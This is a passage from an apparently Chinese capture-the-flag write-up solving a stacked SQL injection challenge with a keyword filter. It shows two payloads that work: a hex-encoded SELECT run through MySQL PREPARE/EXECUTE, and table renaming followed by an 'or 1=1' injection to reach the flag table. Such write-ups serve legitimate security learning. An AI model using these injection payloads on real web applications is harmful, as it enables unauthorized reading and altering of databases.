 ![image3](image-20210227202426166.png "image3")

接下来要想办法查询到该表中的flag内容。直接堆叠注入查询语句，会发现`select`等关键字都被过滤掉了。

![image-20210227202949683](image-20210227202949683.png "image-20210227202949683")

于是有两种思路

### 思路1

使用MySql的prepare功能，这是一个类似于计划任务的功能。将select查询语句转换为16进制，然后prepare...from...来执行该语句。

```
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

### 思路2

直接修改表的名字，`rename`/`alter`等关键字是没有被筛选的，所以可以被输入执行。先将`words`表名改为其他名字，再将`1919810931114514`表名改为`words`。因为当前页面的查询对象就是表`words`，所以可以直接进行查询。

```
1';rename table `words` to `123`;rename table `1919810931114514` to `words`;alter table `words` add id int(10);#
1' or 1=1 #
```

## 0x03 [极客大挑战 2019]Havefun
